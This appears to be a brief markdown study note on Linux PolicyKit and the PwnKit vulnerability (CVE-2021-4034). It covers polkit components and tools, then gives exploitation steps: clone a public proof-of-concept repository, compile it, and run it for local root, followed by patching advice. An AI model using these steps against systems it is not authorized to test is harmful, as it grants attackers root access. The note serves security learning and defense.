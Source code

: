 ### **Overview**

- _PolicyKit (polkit)_ is a Linux authorization service used for inter-process communication with permission management.
- Determines whether an unprivileged process is authorized to carry out privileged operations.
- Configurable by user, group, application, and session.

---

### **Key Components**

- **Policy Files**: `/usr/share/polkit-1/actions`
- **Rule Files**: `/usr/share/polkit-1/rules.d`
- **Local Authority**: `/etc/polkit-1/localauthority/50-local.d/*.pkla`

---

### **Tools**

- `pkexec`: Executes commands as another user (like `sudo`).
- `pkaction`: Lists available polkit actions.
- `pkcheck`: Checks if an action is authorized.

---

### **Usage Example**
```bash
pkexec -u root id
# uid=0(root) gid=0(root) groups=0(root)
```

## CVE-2021-4034 (PwnKit)

---

### **Description**

- _Vulnerability_: Memory corruption in `pkexec`.
- _Impact_: Local privilege escalation to **root**.
- _Affected_: All major Linux distributions (vulnerable for over 10 years).
- _Fix Released_: Early 2022.

### **Exploitation Steps**

1. **Download PoC**
```bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
```

2. **Compile Exploit**
```bash
gcc cve-2021-4034-poc.c -o poc
```

3. Execute:
```bash
./poc
```

---

### **Mitigation**

- Patch systems immediately with the official fix from distribution maintainers.
- Audit access to `pkexec` binary and apply monitoring controls.